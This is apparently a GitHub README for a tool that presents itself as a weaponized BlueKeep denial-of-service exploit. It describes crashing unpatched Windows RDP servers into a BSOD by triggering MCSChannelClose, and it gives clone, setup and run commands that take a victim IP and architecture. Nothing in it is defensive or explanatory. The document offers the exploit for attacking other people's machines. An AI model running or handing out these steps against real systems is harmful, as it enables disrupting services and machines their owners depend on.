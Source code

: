 # BLUEKEEP_WEAPONIZED_DOS

<p><b>
  This is a weaponized Bluekeep module, that will cause an unpatched server , to crash or worse , Cause a BSOD. 
  his module works by sending crafted data required to trigger the call to MCSChannelClose.
  This causes prematurely closing an internal channel, which results in a BSOD on the victim machine.
  
</p></b>

<p><b>
Installation instructions : 
  
  <p><b>git clone https://github.com/1captainnemo1/BLUEKEEP_WEAPONIZED_DOS.git</p></b>
  <p><b>cd BLUEKEEP_WEAPONIZED_DOS/</p></b>
  <p><b>chmod +x setup.sh</p></b>
  <p><b>./setup.sh    # to clone the impackets module </p></b>
  <p><b>python exploit_bsod_bluekeep.py <IP> 64</p></b>
  <p><b>or</p></b>
  <p><b>python exploit_bsod_bluekeep.py <IP> 32 </p></b>
  <p><b>depending on the victim machine architecture </p></b>
  
  
</p></b>

<p><b>#Author :#Captain_Nemo </p></b>

<p>
  <a href= "https://youtu.be/oUKoKYMpXRE" rel="nofollow">
      <img src="https://github.com/1captainnemo1/BLUEKEEP_WEAPONIZED_DOS/blob/master/bluekeepweapon.jpg?raw=true"  alt="to_video" style="max-width:100%;">
  </a>
</p>
